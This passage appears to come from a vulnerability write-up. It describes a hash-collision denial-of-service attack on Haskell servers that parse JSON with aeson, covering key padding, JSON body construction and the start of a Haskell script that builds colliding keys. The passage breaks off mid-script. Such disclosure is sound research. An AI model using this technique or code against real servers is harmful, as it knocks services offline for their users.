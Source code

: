Note that extending a [`Data.Text.Text`](https://github.com/haskell/text/blob/master/Data/Text/Internal.hs#L59-L64) value with a zero-byte does use more space, so it may not be feasible to use only extended [`Data.Text.Text`](https://github.com/haskell/text/blob/master/Data/Text/Internal.hs#L59-L64) values in an attack. For this reason, we collect as many colliding [`Data.Text.Text`](https://github.com/haskell/text/blob/master/Data/Text/Internal.hs#L59-L64) values as we can and extend them only if we need even more of them and can afford using more space.

**NOTE** Haskell web servers which consume JSON and do not place a limit on the request body size would be even more susceptible to a key-extension attack. However, this case is uninteresting, since such servers are already susceptible to a memory-exhaustion attack. Our goal in this attack is to maximise the number of keys that will fit into the arbitrary request body size limit.

##### Creating a JSON `ByteString`

At this point, all that is left before creating the JSON `ByteString` is to put the right separating characters around the colliding [`Data.Text.Text`](https://github.com/haskell/text/blob/master/Data/Text/Internal.hs#L59-L64) objects. Note that it is highly inefficient to construct a JSON `ByteString` using `aeson` via a [`Data.Aeson.Value`](https://github.com/bos/aeson/blob/master/Data/Aeson/Types/Internal.hs#L345) because then we would be attacking ourselves.

##### Non-problematic problem

We also generate a JSON Object that contains non-colliding strings, just to make sure we that we have a value to check the difference against.

##### Completed Construction

The completed construction script looks as follows.

```
#!/usr/bin/env stack
-- stack --resolver lts-11.10 script
{-# LANGUAGE OverloadedStrings, NoImplicitPrelude #-}

import Control.Monad (replicateM)
import Data.Aeson
import qualified Data.ByteString.Char8 as B
import qualified Data.ByteString.Lazy as L
import qualified Data.HashMap.Strict as HM
import Data.Hashable (hash)
import Data.List (intersperse)
import qualified Data.Text as T
import Data.Text.Encoding
import Prelude (print)
import RIO
import System.Environment (getArgs)
import System.Exit (die)

main :: IO ()
main = do
    args <- getArgs
    arg <-
        case args of
            [] -> die "Supply the file with colliding strings as an argument"
            (a:_) -> pure a
    bs <- B.readFile arg
    let ls = filter (not . B.null) $ B.lines bs
    texts' <-
        fmap catMaybes $
        forM ls $ \l' -> do
            let l =
                    if even (B.length l')
                        then l'
                        else l' <> "\0"
            res <- tryAnyDeep $ return $ decodeUtf16LE (l :: B.ByteString)
            case res of
```